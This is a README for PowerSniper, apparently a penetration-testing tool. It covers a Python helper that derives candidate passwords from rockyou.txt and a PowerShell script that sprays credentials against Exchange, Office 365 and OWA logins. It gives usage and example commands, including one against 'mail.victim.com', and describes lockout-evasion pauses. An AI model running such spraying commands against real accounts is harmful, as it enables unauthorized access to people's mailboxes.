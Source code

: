 # PowerSniper
Password spraying script and helper for creating password lists.

The Python script uses configurable parameters to extract complex passwords from a password list such as rockyou.txt.  It then analyzes the Damerau-Levenshtein distance between that password and a list of common passwords (the text file in this repository is the top 20 most common rockyou passwords that could be easily modified to be a complex password, i.e. not the one's that are all digits).  The script is configurable for the maximum distance to keep a password, with a default of 4, and will output results to a CSV file.

The PowerShell script loops through usernames and passwords and attempts to authenticate with them against various Microsoft Exchange web-based services.  The script supports pausing after a specified lockout count for a specified period of time to prevent account lockouts.

Requirements
============
passdist.py requires jellyfish

Usage
=====
<pre>
usage: rockdist.py [-h] --wordlist WORDLIST --toplist TOPLIST [--output OUTPUT] [--passmin PASSMIN] 
                        [--passmax PASSMAX] [--complex] [--passdist PASSDIST]
                        
  Get the distances between complex passwords and top passwords used

  optional arguments:  
    -h, --help           show this help message and exit  
    --wordlist WORDLIST  the file with the complex rockyou passwords (default: None)  
    --toplist TOPLIST    the file with the top rockyou passwords (default: None)  
    --output OUTPUT      the CSV output of the analysis (default: analysis.csv)  
    --passmin PASSMIN    the minimum size password to choose from (default: 7)  
    --passmax PASSMAX    the maximum size password to choose from (default: 12)  
    --complex            require complex passwords (default: 0)  
    --passdist PASSDIST  the maximum distance between passwords to keep (default: 4)
</pre>

Example passdist.py command:
<pre>
    python passdist.py --wordlist rockyou.txt --toplist toplist_rockyou.txt --output lowdist.csv --passmin 7 --passmax 12 --complex --passdist 4
</pre>

Example PowerSniper.ps1 usage:
<pre>
    # Outlook Anywhere Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc oa -userlist users.txt -passlist passwords.txt -sos false -lockout 6 -locktime 30
    
    # ActiveSync Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc as -userlist users.txt -passlist passwords.txt -sos false -lockout 6 -locktime 30
    
    # Outlook Web Access Test
    Invoke-PowerSniper -uri https://mail.victim.com/owa/auth.owa -svc owa -userlist users.txt -passlist passwords.txt -sos false -lockout 6 -locktime 30
</pre>
